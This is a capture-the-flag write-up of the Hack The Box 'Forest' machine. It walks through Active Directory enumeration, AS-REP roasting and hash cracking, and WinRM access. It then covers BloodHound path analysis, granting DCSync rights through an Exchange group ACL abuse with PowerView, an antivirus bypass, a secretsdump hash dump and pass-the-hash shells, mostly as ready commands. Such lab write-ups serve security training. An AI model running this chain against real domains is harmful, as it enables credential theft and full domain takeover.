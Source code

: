 ```yaml
---
date: 2025-03-28
categories: [CTF, HTB]
title: "HTB - Forest"
tags: ['bloodhound', 'hashcat', 'impacket', 'kerberos', 'ldap', 'linux', 'nmap', 'privilege escalation', 'rce', 'secretsdump', 'smb', 'windows']

description: "Forest - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Forest

```bash
nmap 10.129.95.210 -A

```

![image1](../resources/711e7307ff794f6cbf6267013997a959.png)

- Looks like this could be the DC (Kerberos)
- Got the domain from ldap - **htb.local**

- Port 445 SMB is open
- Enumerate with enum4linux

```bash
enum4linux 10.129.95.210

```
- Found users:

![image2](../resources/20f9c52a79b54382b6e591412d9adb91.png)


![image3](../resources/12f7a24d9c9042fa9df1e633361e6493.png)

- <u>Can also use LDAP to enumerate:</u>

```bash
ldapsearch -H ldap://10.129.95.210 -x -s base -b '' "(objectClass=*)" "*" +
```

![image4](../resources/654647aff37743419fe09ff3eb012172.png)

```bash
ldapsearch -H ldap://10.129.95.210 -x -b "DC=htb,DC=local" | grep "dn: CN=" | grep "OU="
```

![image5](../resources/fcedadc34f5c47498612578acbe9a079.png)

<https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/>

- Add users in a file (**users**)

- Check if usernames are valid:

```bash
kerbrute userenum --dc 10.129.95.210 -d htb.local users -o validusers.txt

```

![image6](../resources/3d882de76f884541bc79be2f2bf636a0.png)

- Vind vulnerable users:

```bash
impacket-GetNPUsers htb.local/ -users users -no-pass -dc-ip 10.129.95.210

```

![image7](../resources/f025b74aec67441f97fb2deff533359e.png)

- Save the whole hash to a file and use hashcat:

```bash
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```

![image8](../resources/329228a4ba98415d9415ad926177c823.png)

Got credentials for a service account.

- Test with CME:

```bash
crackmapexec smb 10.129.95.210 -u svc-alfresco -p <password>

```

![image9](../resources/df6387c210d444d49f6852fd97b7b6c4.png)

- Remote using WinRM:

```bash
evil-winrm -i 10.129.95.210 -u svc-alfresco -p <password>

```

![image10](../resources/b0da291eb004454c94a88fb3b89ba7e3.png)


![image11](../resources/6c1dceeb42bf4cb28ac9f2c67a1d7032.png)

**<u>Priv Esc:</u>**

```bash
whoami /all

```

![image12](../resources/787ff38513e848848c131819de4c95ab.png)

- Part of the:
**BUILTIN\Account Operators**

The Account Operators group grants limited **account creation privileges** to a user.

Members of this group can create and modify most types of accounts, including accounts for users, Local groups, and Global groups.

Group members can log in locally to domain controllers

- Upload Sharphound:

```bash
upload SharpHound.exe

```
- Run Sharphound:

```bash
.\SharpHound.exe --CollectionMethods All --Domain htb.local --ZipFileName loot.zip

```
- Download the loot.zip file:

```bash
download 20240205024401_loot.zip

```
- Start Neo4j:

```bash
sudo neo4j console

```
- Open Bloodhound
Drag and drop the loot.zip file into bloodhound

Click on - **Find Shortest Paths to Domain Admins**


![image13](../resources/b259b9483f584490a258a9eb2b83d5b6.png)

If there is loads of old data in bloodhound:

Connect to the neo4j browser gui <http://localhost:7474>

Run:

```bash
MATCH (n)

DETACH DELETE n;

```

![image14](../resources/a81df9fe27cf4b368ca75963582fbcc3.png)


![image15](../resources/b4105ed3e6734f0880074ed44f063fee.png)

- **The user svc-alfresco is part of the Account Operators group**


![image16](../resources/46f99dc060234015a590067222896335.png)

- Click on the Account Operators node and Reachable High Value Targets

![image17](../resources/029cb7f8d2914fdb874d1124d221fd0a.png)


![image18](../resources/c54af6facdca4248872077bab5945087.png)


![image19](../resources/598ff1be2ca242e7b5612919824d2a57.png)

- Account operators has GenericAll to the Exchange Windows Permissions

![image20](../resources/e33572edc1764efbad8bd89ac7c1857d.png)

- And that in turn has WriteDACL to the HTB.LOCAL

![image21](../resources/a004f7b15ae94c44b790748fa5ff5503.png)

- HTB.LOCAL is the domain so we know that all accounts are part of it ie. Administrator

- And clicking on the Domain Admins' node - We can see that Administrator account is a part of that group.
And we need DA

- **<u>To exploit:</u>**

- Create a new user (tooby):

```bash
net user tooby Password123! /add /domain

```
- Add to the group Exchange Windows Permissions

```bash
net group "Exchange Windows Permissions" tooby /add

```
- Open the menu in evil-winrm:

```bash
menu

```

![image22](../resources/0d1d666a37e94b3fbe7869d2595a0d89.png)

- Use Bypass-4MSI - To bypass AV

![image23](../resources/bce6ba48b3934433a7bfae386888855a.png)

- Upload PowerView.ps1 and run it:
  upload PowerView.ps1

```powershell
  . .\PowerView.ps1
  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('htb\tooby', $SecPassword)
  Add-DomainObjectAcl -PrincipalIdentity tooby -Credential $Cred -Rights DCSync
```

- User tooby has DCSync rights now

- Run a DCSync to get hashes:

```bash
impacket-secretsdump htb/tooby:'Password123!'@10.129.95.210 -dc-ip 10.129.95.210
```

![image24](../resources/731b570fcc194ce1b4e5e6b68526e96c.png)

- Got htb.local\Administrator hash

- **<u>Get shell:</u>**

- <u>Psexec:</u>

```bash
impacket-psexec htb/administrator@10.129.95.210 -hashes "<password_hash>"
```

![image25](../resources/829f70572ea947afbe3f7c5eb3617d17.png)


![image26](../resources/c5363a4bedf249f986ba565afdf8074c.png)

- <u>Evil-WinRM:</u>

```bash
evil-winrm -i 10.129.95.210 -u administrator -H "<second_half_of_hash>"
```

![image27](../resources/56b8467c0fcc4dc8932317ea0d9670e5.png)

![image28](../resources/196ec54770d84bb2851cd1ce4788d45e.png)